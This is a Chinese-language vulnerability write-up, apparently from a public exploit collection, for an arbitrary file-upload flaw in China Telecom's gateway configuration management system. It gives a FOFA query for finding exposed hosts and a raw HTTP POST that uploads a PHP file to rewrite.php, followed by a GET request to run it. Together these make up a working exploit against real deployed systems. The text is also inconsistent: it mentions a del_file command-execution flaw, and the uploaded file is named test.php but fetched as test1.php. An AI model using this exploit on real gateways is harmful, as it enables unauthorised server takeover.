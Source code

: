# 电信网关配置管理系统rewrite存在文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">中国电信集团有限公司（英文名称“China Telecom”、简称“中国电信”）成立于2000年9月，是中国特大型国有通信企业、上海世博会全球合作伙伴。电信网关配置管理系统del_file存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 电信网关配置管理系统

# 三、资产测绘
+ fofa`body="img/dl.gif" && title="系统登录"`
+ 特征

![1713231679173-db9b0c3c-79d6-4f91-baac-a8358f5ccad1.png](./img/8c5EN0nJePhVygzM/1713231679173-db9b0c3c-79d6-4f91-baac-a8358f5ccad1-275973.png)

# 四、漏洞复现
```java
POST /manager/teletext/material/rewrite.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOKldnDPT
Connection: close
 
------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="tmp_name"; filename="test.php"
Content-Type: image/png
 
<?php echo md5('666');unlink(__FILE__);?>
------WebKitFormBoundaryOKldnDPT
Content-Disposition: form-data; name="uploadtime"
 
 
------WebKitFormBoundaryOKldnDPT--
```

![1715354904567-3e7260cf-b3ae-4345-bbb9-4ebc6db96872.png](./img/8c5EN0nJePhVygzM/1715354904567-3e7260cf-b3ae-4345-bbb9-4ebc6db96872-007827.png)

上传文件地址

```java
GET /xmedia/material/test1.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Connection: close
```

![1715354913211-9d648019-ec1d-43a8-9f31-328adcc87fcb.png](./img/8c5EN0nJePhVygzM/1715354913211-9d648019-ec1d-43a8-9f31-328adcc87fcb-610528.png)



> 更新: 2024-05-14 11:21:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ukcgt02yr1b4yu4l>